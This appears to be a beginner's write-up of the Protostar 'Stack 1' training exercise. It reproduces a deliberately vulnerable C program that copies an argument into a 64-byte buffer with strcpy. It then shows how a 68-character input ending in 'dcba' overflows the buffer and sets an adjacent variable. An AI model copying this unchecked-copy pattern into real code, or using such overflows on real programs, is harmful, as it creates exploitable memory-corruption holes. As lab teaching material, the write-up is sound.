

# [cd ../](../index.md)
# Stack 1

> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

> Hints
> - If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
> - Protostar is little endian


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```
## Fuzzin it
- Enter 64 `A` (as argv) -> got `Try again, you got 0x00000000`
- Enter 65 `A` (as argv) -> got `Try again, you got 0x00000041`
### The 65th char inserted as hex int the `modified` var
- We need `modified` to be `0x61626364` and we know it's a `lil endian elf`
- So the numbers move **backwards**.
### Wiki [Endianness](https://en.wikipedia.org/wiki/Endianness)
U can see there is 2 type of it.
Little:  

And Big:  


I hope u got what i meant by
> numbers move backwards
(:

## Inserting the right value
So we do a `man ascii` cuz we need `0x61626364` after 64 A.  

This is `64636261` cuz of the lil endian thing.
- The solution is `dcba`
- Lets try it how it works (:
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
## OH boiiii we got it (:
